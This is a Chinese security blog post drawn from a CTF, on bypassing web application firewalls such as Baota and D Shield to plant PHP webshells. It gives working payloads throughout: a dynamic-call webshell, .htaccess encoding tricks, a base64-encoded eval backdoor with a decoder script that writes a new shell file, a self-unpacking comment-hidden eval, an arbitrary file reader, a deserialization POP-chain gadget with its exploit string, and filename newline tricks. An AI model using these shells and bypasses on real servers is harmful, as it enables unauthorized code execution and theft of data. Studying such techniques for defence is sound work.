 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MjM5MTYxNjQxOA==&mid=2652863756&idx=1&sn=50279e28c96e4a7b46782c51bf4a6820&chksm=bd5901c18a2e88d7f41c1cd7658fe5ad9ebc146964fd297afb79ed1601baf26ac66b36a708fd&mpshare=1&scene=1&srcid=1016lBAqCMOGdjgWNycLvDTr&sharer\_sharetime=1602823602260&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=d1b2c53fcb9e77ee3703a3cb818d9912f5f4b5ded84d0bced721fc7908b705ec13b0da5269484fc3e8814c57242a72fc1c6622893faf297df311d028e52a9b2576ddcd9de52fdd8829ce75ea7d436a3aeec707020d8f3ac0377ae435d3e23d10150d1803f057f76ce893905247b2c3299a49581142ec9cb5f0556b849009b1e0&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=AXlnZ0eXDefD1aDukSQJTlw%3D&pass\_ticket=fNc1mNErgeHhn4jm0DcjBlD5hkXepEyD08VA%2B16wYw5QmvtETgayFa%2BrZuz3ot9i&wx\_header=0)

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LdRmpz4ibIY8GpicEiabmEOVuDWthuxj2TXBsNCVHu70z5pcUkEHkWCrichUzI2esFfCrwUOpkB24XedQ/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)

亲爱的,关注我吧

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LdRmpz4ibIY8GpicEiabmEOVuDWthuxj2TXBsNCVHu70z5pcUkEHkWCrichUzI2esFfCrwUOpkB24XedQ/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)

**10/16**

文章共计1981个词

预计阅读10分钟

来和我一起阅读吧

  

很久没写文章了，继上次发先文章到今天已经很久了；很久没写文章了，继上次发先文章到今天已经很久了；今天突发异想；因为之前打了西湖论剑，遇到了宝塔的waf，最后也是过去了，便觉得另类的攻击方法值得写篇文章分享下；首先我打算分享几种。

一：动态调用
------

      首先，一些waf会对文件内容进行检索，如果发现有什么危险的函数，或者有什么危害的逻辑，都会进行拦击，所以我们不能写入一些危险的函数，否则就会被ban掉，其实在实际的攻击中，也是存在和这次论剑web1一样的绕过方式，在我们真正恶意代码前加入大量杂糅字符进行绕过；然后对后缀进行换行绕过；

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Le6ldd84icOm8SqzEUObIiaVenvOTaKV6hia1DwZLlp7omrbSYicyqiacOKDEsZicGoQtF84YuhzIZmbQKw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

那么就会存在此次web1的动态调用解法；

写入`<?php $_GET['0']($_GET['1']);?>`我们在上传的文件中并没有出现什么危险的函数，而是通过后期的get传入进行动态调用从而执行命令；这样就会绕过上传时waf的检测；但是绕不过disable\_function;；

载荷效果如下：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Le6ldd84icOm8SqzEUObIiaVeicXbgEfHiaGf3EIZdMcic1jj64U7GF9OHQnX3a7z6LtRgplY90O3yrXGA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

二：利用.htaccess文件
---------------

对于利用.htaccess文件的攻击方法，其实有很多方法；包括自我包含造成后门，或者auto\_prepend\_file文件，或者自定义报错目录然后利用包含报错写入木马最后自定义包含，AddType等等。当然如果想搞怪的话，也是可以利用.htaccess打出存储型xss的效果；但是这里主题分享如果过滤了内容中的一些敏感字符应如何。

比如过滤了<? 或者 <  ;这里也是老方法了；之前也写过，利用.htaccess进行编码的转化，base64或者UTF-7都可；我们只需要将木马文件进行相应的编码即可；这种方法可以绕过waf的检测，但是也是绕不过 disable\_function；

三：利用文件修改文件造成木马
--------------

这种方式也确实值得分享，也是基于waf对我们的木马内容进行过滤；当我们无法上传带有危险函数的木马时；可以使用文件篡改文件的方法；这种方法基于第二种方法.htaccess无法传入的时候；

比如：先传入`PD9waHAgZXZhbCgkX1BPU1RbJ2EnXSk7Pz4=`命名为1.php；这里我们上传时waf自然不会检测到，因为我们确实没有危险函数；然后再次传入第二个没有高度危险函数的2.php代码：

```
`<?php` `$path ="/xx/xxx/xx/1.php";``$str= file_get_contents($path);``$strs = base64_decode($str);``$s1mple = fopen("./s1mple.php","w");``fwrite($s1mple,$strs);``fclose($s1mple);``?>`
```

代码逻辑简单，将我们的文件，进行了base64解密，然后写入的一个新的php文件中，这样避免了file\_put\_contents这个极大概率被ban的函数的出现，又成功的写入了文件，我们访问2.php，然后再访问s1mple.php就可以拿到shell；载荷效果如下：

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

四：利用低危木马；
---------

基于第三种方法，我们如果不是拿权限的话，也是可以利用一些低危的操作，比如任意文件读取等等；

下面先来看这段getshell的代码

```
`<?php``$s1mple = file_get_contents(__FILE__);``eval(str_replace("<?php","",str_replace("//","",$s1mple)));``//eval($_GET['a']);``?>`
```

这段代码在之前可以绕过D盾，是基于注释的绕过；现在不确定还能否绕过；简单分析下逻辑；首先$s1mple得到本篇代码的所有内容；然后执行一个替换的语句；先释放出木马语句；然后再将php头换掉，保持了原本的php头；这样就释放出了木马，就可以通过get传参进行命令执行；

  

或者换种方法，这里我们可以直接file\_get\_contents函数进行攻击，

```
<?php echo file_get_contents($_GET['a']);?>
```

  
这样也就可以达到任意文件读取，当然，因为php的特性，也可以对file\_get\_contents进行各种处理，使其绕过waf；也可以结合其他php的内置函数进行攻击，可以类比；这里不在细说；

五：利用逻辑问题
--------

这种思想比较新颖；简单来说，我们并不是传入恶意代码，而是传入一段正常的代码，然后通过逻辑修改其运作走向，从而达到恶意执行，那么适合的就是pop链的构造了；

```
`<?php``error_reporting(0);``class s1mple{` `public $A;` `function __construct(){` `$this->A=new hacker();` `}` `function __destruct(){` `$this->A->action();` `}``}``class hacker{` `function action(){` `echo "hello_hacker";` `}``}``class evil{` `public $data;` `function action(){` `eval($this->data);` `}``}``unserialize($_GET['a']);`
```

  
先来看正常的代码；这段代码中我们按照正常的逻辑分析，肯定是没有问题的；但是我们可以利用逻辑，改变其执行的走向从而进行对象注入达到攻击；

```
O:6:"s1mple":1:{s:1:"A";O:4:"evil":1:{s:4:"data";s:10:"phpinfo();";}}
```

  
在我们一般的上传中，往往是图片，就单代码而言，其大小是微乎其微的；所以在实战中也可用到；而且很难被检测到；当然，这只是一种方式，也可以结合回调函数和其他的函数，可以将其隐藏起来，然后利用pop触发；而且如果代码伪造的合适的话，也是可以骗过管理员从而避免被管理员删除的；

六：利用过宝塔waf思路另辟蹊径绕过waf
---------------------

宝塔的waf对于文件明后缀的检测，是可以通过换行进行绕过的；就譬如我们在例子一中说的那样，那么我们除了对于我们后缀进行换行绕过，我们也可以考虑对我们的filename做手脚；对filename做换行，也可以绕过；

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

以上这些方法也算是新式方法，当然也可以考虑异或或者自增的木马，也可以通过混淆进行攻击，都可；但是实际中这些往往会被检测，上述的几种方法都是测试后可绕过D盾或者绕过宝塔的方法，供参考；另外一些方法需要可以首先绕过上传对后缀的检测，比如可以换行绕过宝塔对后缀的检测；如果可以上传php，那么以上方法即可任意发挥攻击。  
  

**相关实验：WAF渗透攻防实践** 

https://www.hetianlab.com/expc.do?ec=ECIDee9320adea6e062017110811103300001

通过该实验了解基于规则的WAF的工作原理，通过分析相关防御规则，尝试使用多种方法进行绕过，使读者直观感受攻防双方的博弈过程。

**10/16**

  

欢迎投稿至邮箱：**EDU@antvsion.com**  

有才能的你快来投稿吧！

  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

戳“阅读原文”我们一起进步